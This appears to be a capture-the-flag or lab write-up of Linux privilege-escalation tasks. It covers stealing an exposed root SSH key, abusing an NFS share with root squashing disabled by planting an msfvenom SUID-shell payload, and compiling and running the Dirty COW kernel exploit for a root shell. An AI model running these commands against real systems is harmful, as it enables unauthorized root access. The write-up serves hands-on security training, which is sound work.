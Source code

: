 # Task 18 - Passwords & Keys - SSH Keys 

ls -l /.ssh => has root_key

COpy it into our machine and we can ssh as root.

# Task 19 - NFS

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

cat /etc/exports => /tmp share has root squashing disabled.

Make a mount point in ubuntu

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.18.84:/tmp /tmp/nfs
```

Create a payload `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf` 

Execute /tmp/shell.elf in SSH session

# Task 20 - Kernel Exploits

**NOTE: Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.**

Running `linux-exploit-suggester-2` we know that it is vulnerable to `dirty cow` attack.

This attack replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Now running `/usr/bin/passwd` will give us a root shell!!